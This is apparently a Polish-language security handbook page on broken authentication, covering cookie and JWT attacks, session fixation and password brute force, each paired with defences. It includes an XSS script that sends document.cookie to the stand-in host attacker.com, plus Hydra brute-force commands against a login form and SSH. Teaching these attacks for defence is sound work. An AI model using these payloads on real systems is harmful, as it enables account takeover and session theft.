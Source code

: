 ```yaml
---
id: "broken-authentication"
title: "🔐 Broken Authentication & Session Management"
sidebar_position: 8
---
```


# 🔐 Broken Authentication & Session Management

Luki w uwierzytelnianiu i zarządzaniu sesjami umożliwiają atakującym przejęcie kont użytkowników, odczytanie sesji, a nawet eskalację uprawnień. W tej sekcji omówimy najczęstsze ataki oraz sposoby ich przeprowadzania.

---

## 🎭 Ataki na sesje użytkowników (JWT, Cookies)

### **1️⃣ Ataki na Cookies**
Pliki cookie zawierają dane sesyjne użytkownika i mogą być celem ataku.

#### **Odczytanie cookies w przeglądarce**
W konsoli przeglądarki (F12 → Console):
```javascript
document.cookie
```

#### **Kradzież sesji przez XSS**
Jeśli aplikacja jest podatna na XSS, można wykraść sesję użytkownika:
```javascript
<script>
  fetch('http://attacker.com/steal?cookie=' + document.cookie);
</script>
```

#### **Modyfikacja sesji (Session Fixation)**
Jeśli aplikacja nie zmienia ID sesji po zalogowaniu, atakujący może wymusić użycie konkretnej sesji:
```http
Set-Cookie: PHPSESSID=attackerSession; path=/; HttpOnly
```

Zabezpieczenia:
- **Używanie HttpOnly i Secure cookies**
- **Regeneracja ID sesji po zalogowaniu**
- **Ustawienie polityki SameSite dla ochrony przed CSRF**

---

### **2️⃣ Ataki na JWT (JSON Web Tokens)**
JWT są często używane do autoryzacji, ale mogą być podatne na ataki.

#### **Brak podpisu JWT**
Jeśli aplikacja akceptuje niepodpisane JWT, można podmienić payload:
```json
{
  "alg": "none",
  "typ": "JWT"
}
```

Przykładowe narzędzie do dekodowania JWT:
```bash
jwt_tool token_here -d
```

#### **Podatność na atak Brute-force algorytmu HS256**
Jeśli klucz podpisujący JWT jest słaby, można go złamać:
```bash
jwtcrack mytoken.jwt
```

Zabezpieczenia:
- **Używanie silnego klucza podpisującego JWT**
- **Ustawienie krótkiego czasu życia tokenów**
- **Odrzucanie niepodpisanych JWT**

---

## 🔑 Bruteforce i ataki na hasła (Hydra, Burp Intruder)

### **1️⃣ Atak bruteforce na logowanie (Hydra)**
Hydra umożliwia atakowanie formularzy logowania metodą siłową.

#### **Bruteforce logowania HTTP POST**
```bash
hydra -l admin -P passwords.txt example.com http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"
```
Opcje:
- `-l admin` – login użytkownika
- `-P passwords.txt` – lista haseł
- `http-post-form` – atak na formularz POST

#### **Bruteforce na SSH**
```bash
hydra -l root -P passwords.txt ssh://192.168.1.10
```

Zabezpieczenia:
- **Ograniczenie liczby nieudanych prób logowania**
- **Uwierzytelnianie wieloskładnikowe (MFA)**
- **Blokowanie podejrzanych adresów IP**

---

### **2️⃣ Atak brute-force przy użyciu Burp Intruder**
Burp Suite Intruder pozwala na ataki słownikowe na formularze logowania.

#### **Konfiguracja ataku**
1. Przechwyć żądanie logowania w Burp Suite.
2. Przekieruj je do zakładki `Intruder` → `Positions`.
3. Ustaw `§` wokół parametrów `username` i `password`.
4. Wybierz `Payloads` → dodaj listę loginów i haseł.
5. Uruchom atak i sprawdź, które odpowiedzi różnią się od pozostałych.

Zabezpieczenia:
- **Wprowadzenie CAPTCHA**
- **Opóźnienia po nieudanych próbach logowania**
- **Monitorowanie nietypowego ruchu logowania**

---

Podatności w uwierzytelnianiu są jednym z najpoważniejszych zagrożeń dla aplikacji webowych. Kolejnym krokiem będzie analiza podatności **Cross-Site Scripting (XSS)**! 🎯